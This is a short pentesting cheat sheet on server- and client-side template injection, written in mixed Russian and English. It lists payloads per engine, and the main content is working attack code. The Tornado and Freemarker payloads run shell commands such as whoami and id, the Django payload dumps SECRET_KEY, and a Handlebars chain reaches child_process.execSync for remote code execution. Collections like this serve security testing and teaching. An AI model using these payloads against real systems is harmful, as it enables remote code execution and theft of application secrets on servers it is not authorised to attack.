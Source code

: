 # SSTI/CSTI

Flask & Jinja2 [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)

Template Injection Workshop (по сути, примеры, как это работает в python, php, java,..): [https://gosecure.github.io/template-injection-workshop/#0](https://gosecure.github.io/template-injection-workshop/#0)

Норм описание для h1 для CSTI: [https://hackerone.com/reports/125027](https://hackerone.com/reports/125027)

## Python

### Tornado

Link: [https://www.tornadoweb.org/en/stable/](https://www.tornadoweb.org/en/stable/)

Basic:

```python
{{ 2*2 }}
{% raw %}
{% import subprocess %}
{% import os %}
{% endraw %}{{ os.popen("whoami").read() }}
```

### Django

#### Django Templates

Link:[ https://docs.djangoproject.com/en/4.1/topics/templates/](https://docs.djangoproject.com/en/4.1/topics/templates/)

Basic:

```python
{% raw %}
{% debug %}
{% endraw %}
{{ setting.SECRET_KEY }}
```

### Jinja2

Link: [https://jinja.palletsprojects.com/en/3.1.x/](https://jinja.palletsprojects.com/en/3.1.x/)

## Ruby

### ERB

Link: [https://puppet.com/docs/puppet/5.5/lang\_template\_erb.html](https://puppet.com/docs/puppet/5.5/lang\_template\_erb.html)

Basic:

```ruby
<%= 7 * 7 %>
```

### Slim

Link: [https://github.com/slim-template/slim](https://github.com/slim-template/slim)

Basic:

```ruby
#{ 7 * 7 }
```

## Java

### Freemarker

Link:[ https://try.freemarker.apache.org/](https://try.freemarker.apache.org/)

Basic:

```java
// Code Execution — id:
${"freemarker.template.utility.Execute"?new()("id")}
```

В коде: [https://habr.com/ru/post/420549/](https://habr.com/ru/post/420549/)

Создаем модель данных:

```java
import freemarker.template.Configuration;
import freemarker.template.Template;
...
// Конфигурация
Configuration cfg = new Configuration(Configuration.VERSION_2_3_27);
// модель данных
Map<String, Object> root = new HashMap<>();
root.put("name", "Freemarker");
// шаблон
Template temp = cfg.getTemplate("test.ftl");
// обработка шаблона и модели данных
Writer out = new OutputStreamWriter(System.out);
// вывод в консоль
temp.process(root, out);
```

Spring поддерживает работу с этим шаблонизатором.

Через класс `freemarker.template.TemplateMethodModelEx` можно расширять команды в шаблонизаторе.

## JavaScript

### Handlebars

Link: [https://handlebarsjs.com/](https://handlebarsjs.com/)

Basic:

```javascript
${{7*7}} -> OK
${{7*'7'}} -> Empty
```

RCE (from [payload all the thing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars)):

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
